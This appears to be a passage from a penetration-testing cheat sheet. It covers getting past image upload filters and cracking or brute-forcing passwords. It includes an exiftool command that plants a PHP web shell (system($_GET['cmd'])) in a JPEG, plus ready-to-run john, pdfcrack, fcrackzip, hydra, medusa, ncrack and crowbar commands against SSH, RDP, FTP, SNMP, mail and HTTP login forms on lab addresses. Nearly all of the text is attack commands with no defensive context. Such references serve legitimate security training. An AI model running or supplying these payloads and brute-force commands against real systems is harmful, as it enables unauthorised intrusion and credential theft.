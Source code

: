 ### Bypass image upload restrictions

```
- Change extension: .pHp3 or pHp3.jpg
- Modify mimetype: Content-type: image/jpeg
- Bypass getimagesize(): exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' file.jpg
- Add gif header: GIF89a;
- All at the same time.
```

## Password brute force - last resort

Offline local resources

```
cewl
hash-identifier
pdfcrack SomeFile.pdf -w ~kali/rockyou.txt (For PDF files with passwords)
fcrackzip -u -D -p ~kali/rockyou.txt SomeZip.backup (Cracking zip files passwords)
rar2john MSSQL_BAK.rar --> john -wordlist=/home/kali/rockyou.txt MSQL.hashes (Cracking rar files)
john --rules --wordlist=/usr/share/wordlists/rockyou.txt unshadowed.txt
john --wordlist=/home/kali/rockyou.txt sammy_hash.txt # Crack user hash [user:hash] in file
medusa -h 10.11.1.111 -u admin -P password-file.txt -M http -m DIR:/admin -T 10
ncrack -vv --user offsec -P password-file.txt rdp://10.11.1.111
crowbar -b rdp -s 10.11.1.111/32 -u victim -C /root/words.txt -n 1
hydra -l root -P password-file.txt 10.11.1.111 ssh
hydra -P password-file.txt -v 10.11.1.111 snmp
hydra -l USERNAME -P /usr/share/wordlistsnmap.lst -f 10.11.1.111 ftp -V
hydra -l USERNAME -P /usr/share/wordlistsnmap.lst -f 10.11.1.111 pop3 -V
hydra -P /usr/share/wordlistsnmap.lst 10.11.1.111 smtp -V

# SIMPLE LOGIN GET
hydra -L cewl_fin_50.txt -P cewl_fin_50.txt 10.11.1.111 http-get-form "/~login:username=^USER^&password=^PASS^&Login=Login:Unauthorized" -V

# GET FORM with HTTPS
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.11.1.111 -s 443 -S https-get-form "/index.php:login=^USER^&password=^PASS^:Incorrect login/password\!"

# SIMPLE LOGIN POST
hydra -l root@localhost -P cewl 10.11.1.111 http-post-form "/otrs/index.pl:Action=Login&RequestedURL=&Lang=en&TimeOffset=-120&User=^USER^&Password=^PASS^:F=Login failed" -I

# API REST LOGIN POST
hydra -l admin -P /usr/share/wordlists/wfuzz/others/common_pass.txt -V -s 80 10.11.1.111 http-post-form "/centreon/api/index.php?action=authenticate:username=^USER^&password=^PASS^:Bad credentials" -t 64

# Dictionary creation
https://github.com/LandGrey/pydictor
https://github.com/Mebus/cupp
git clone https://github.com/sc0tfree/mentalist.git
```
